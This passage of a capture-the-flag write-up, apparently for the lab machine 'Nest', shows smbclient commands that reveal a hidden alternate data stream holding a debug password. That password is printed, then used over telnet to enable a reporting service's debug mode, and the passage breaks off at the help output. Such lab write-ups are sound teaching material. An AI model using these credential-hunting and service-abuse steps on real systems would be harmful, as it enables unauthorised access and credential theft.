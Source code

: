 #### Getting Alternate Data Stream (ADS) using smbclient
Okay so It was possible to list the files from the specific folders non-recursively. The task here is to identify the `Alternate Data Stream` on the Debug mode Password.txt file.

```
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Wed Jul 21 02:47:12 PM 2021 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> 
```

We got our `Alternate Data Streat (ADS)` on the Debug Mode Password.txt file. Let's try to read the file with 'ADS' string
```
smb: \C.Smith\HQK Reporting\> more "Debug Mode Password.txt:Password"

WBQ201953D8w 
/tmp/smbmore.Zc7Hcj (END)

```

Great we got the Debug mode password. Looking at the nmap scan we know that The port 4386 may allow the telnet connection and the `DEBUG <PASSWORD>` in the nmap scan result can indicate the same thing. Let's telnet on port 4386 and enabled the DEBUG mode.

#### Telnet Debug Mode to change Dir and Read File

```
# telnet nest.htb 4386
Trying 10.10.10.178...
Connected to nest.htb.
Escape character is '^]'.

HQK Reporting Service V1.2

>DEBUG WBQ201953D8w         

Debug mode enabled. Use the HELP command to view additional commands that are now available
```

Upon exploring the directories using telnet, I found the hash for the administrator. The hash has a same format AES-256-CBC, just like how we did for getting the password for the user `C.Smith`.

```
# telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available

>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

```